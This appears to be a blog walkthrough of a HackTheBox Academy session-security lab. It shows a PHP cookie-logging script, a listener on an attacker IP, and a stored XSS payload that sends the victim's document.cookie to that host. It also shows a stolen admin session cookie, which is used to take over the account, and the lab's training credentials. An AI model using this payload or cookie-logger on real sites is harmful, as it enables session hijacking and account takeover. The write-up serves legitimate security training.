 ```yaml
---
title: "[HTB] Session Security"
excerpt: "**Session Security** Module Walkthrough - HackTheBox Academy"
header:
  overlay_image: /assets/images/HTB_Session_Security/banner.png
  teaser: /assets/images/HTB_Session_Security/upper.jpg
  og_image: /assets/images/HTB_Session_Security/upper.jpg
categories:
  - HTB-Academy
tags:
  - HTB-Academy
  - Bug Bounty Hunter
  - Penetration Tester
  - Web
  - OWASP TOP 10
  - Session Security
  - Cookie
  - PHP
  - Payload
layout: single
toc: true
---
```

![image-center](\assets\images\HTB_Session_Security\upper.jpg)

## Disclaimer
<img style="float: left; padding-right:10px" src="\assets\images\disclaimer.png" width="110" height="110">

<div style="text-align: justify">The following post may contain spoilers. Use it as a guide or support. It is always better to try it by yourself!</div>
<div style="text-align: justify">Enjoy :)</div>

## Resources
<img style="float: left; padding-right:10px" src="\assets\images\github.avif" width="110" height="110">
<div style="text-align: justify">All resources can be found in the following GitHub repository:</div>
[R4fik1-HTB_Session_Security_Repository](https://github.com/r4fik1/HTB_Academy/tree/main/HTB_Session_Security)

## Module Summary

Any inefficiencies or misconfigurations in the session-handling implementation of a web application, service, or API can have devastating consequences that range from information leakage and inadvertent user actions all the way to Account Takeover (ATO) and remote code execution.

As you can imagine, it is of paramount importance to thoroughly test the session-handling logic of a web application being assessed. That said, testing the robustness of a session-handling implementation is not a small feat. This is because chaining (seemingly unrelated) vulnerabilities is often required to successfully attack a user's session.

Worry not, though; in this module, we will provide you with a highly hands-on experience around attacking a user's session and the possible paths that you can take to achieve that.

In this module, you will have the opportunity to practice manual exploitation of the following:

- Session Hijacking
- Session Fixation
- XSS (Cross-Site Scripting) <-- With a focus on user sessions
- CSRF (Cross-Site Request Forgery)
- Open Redirect <-- With a focus on user sessions
  
We will also discuss remediation guidance regarding the abovementioned vulnerabilities.

## Session Security - Skills Assessment

>**Q. Read the flag residing in the admin's public profile. Answer format: [string]**

<div style="text-align: justify">1. We utilize virtual hosts (vhosts) to house the web applications to simulate a large, realistic environment with multiple webservers. Since these vhosts all map to a different directory on the same host, we have to make manual entries in our /etc/hosts file on the Pwnbox or local attack VM to interact with the lab.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\1.png)

<div style="text-align: justify">2. Access to http://minilab.htb.net. First you have to log in with the credentials provided in the statement. Enter the credentials and click on login.</div><br>
```
Email: heavycat106
Password: rocknrol
```
![image-center](\assets\images\HTB_Session_Security\Q11\2.png)

<div style="text-align: justify">3. Create a PHP script that saves the cookie.</div><br>
```sh
nano log.php
```
```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

![image-center](\assets\images\HTB_Session_Security\Q11\3.png)

<div style="text-align: justify">4. Open a listener in the same folder where the PHP script created in the previous step is.</div><br>
```sh
php -S 10.10.15.60:8000
```
![image-center](\assets\images\HTB_Session_Security\Q11\4.png)


<div style="text-align: justify">5. Access the "app" section, enter the following payload in the country field and click on the "Save" button.</div><br>
```php
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://10.10.15.60:8000/log.php?c=' + document.cookie;"></video>
```
![image-center](\assets\images\HTB_Session_Security\Q11\5.png)

<div style="text-align: justify">6. When you click on save, you are redirected to a section where you can save the data permanently. In the following screenshot it is verified that the app has accepted the payload. Click on Save.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\6.png)

<div style="text-align: justify">7. Access http://minilab.htb.net/submit-solution and see how the success field is "false".</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\7.png)

<div style="text-align: justify">8. Insert the following link that contains the profile with the payload as a parameter.</div><br>
http://minilab.htb.net/submit-solution?url=http://minilab.htb.net/profile?email=julie.rogers@example.com
![image-center](\assets\images\HTB_Session_Security\Q11\8.png)

<div style="text-align: justify">9. We check the listener and see what looks like a cookie thanks to the payload, the script and the listener.</div><br>
```sh
[Thu Feb  9 11:11:28 2023] 10.129.19.198:37042 [302]: GET /log.php?c=auth-session=s%3AZMEqyRAhF2Ta7gHyxUZCWu4DaPb2_KT0.ES2ciTNMldjUBsKFonTFKF%2B09jHx6I3lIJFfQGjTkmc
```
![image-center](\assets\images\HTB_Session_Security\Q11\9.png)

<div style="text-align: justify">10. In chrome introduce that cookie in storage and update.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\10.png)

<div style="text-align: justify">11. The admin profile has been accessed within the app. Click on the "Change Visibility" button.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\11.png)
<div style="text-align: justify">12. Finally, click on "Make Public!" button.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\12.png)
<div style="text-align: justify">13. Here we see the first flag and a button to get the second flag. Clicking on the "Flag2" button downloads a pcap file.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\13.png)

>**Q. Go through the PCAP file residing in the admin's public profile and identify the flag. Answer format: FLAG{string}
wireshark**

<div style="text-align: justify">1. We open Wireshark as "superuser" and click on "Open Capture File". Select the previously downloaded file.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\14.png)

<div style="text-align: justify">2. Once the file is open, we look for the string "FLAG" in the search engine and the second Flag is obtained.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\15.png)